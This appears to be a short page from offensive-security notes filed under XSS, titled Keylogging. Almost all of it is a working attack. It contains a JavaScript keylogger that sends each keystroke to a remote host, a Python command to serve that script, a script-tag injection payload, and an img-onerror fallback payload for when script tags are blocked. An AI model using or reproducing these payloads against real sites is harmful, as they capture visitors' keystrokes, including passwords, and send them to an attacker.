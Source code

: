 ```yaml
---
title: Keylogging
layout: default
parent: XSS
has_children: false
nav_order: 3
---
```


<h2>Hosting method:</h2>

1. First create a file name keylog.js with the following content:
(removed the original `fetch("http://domain/?keylog=" + event.key)` code as new Image().src is better)
```
function logKey(event){
        new Image().src = "http://domain/?keylog=" + event.key
}
document.addEventListener('keydown', logKey);
```

2. Host the file using Python:
`python3 -m http.server 80`

3. Inject the payload:
`<script src="http://ownIP/keylog.js"></script>`

4. Can also use the following if script tag is blocked:
`<img src="x" onerror="document.head.appendChild(Object.assign(document.createElement('script'), {src: 'http://domain/keylog.js'}))">`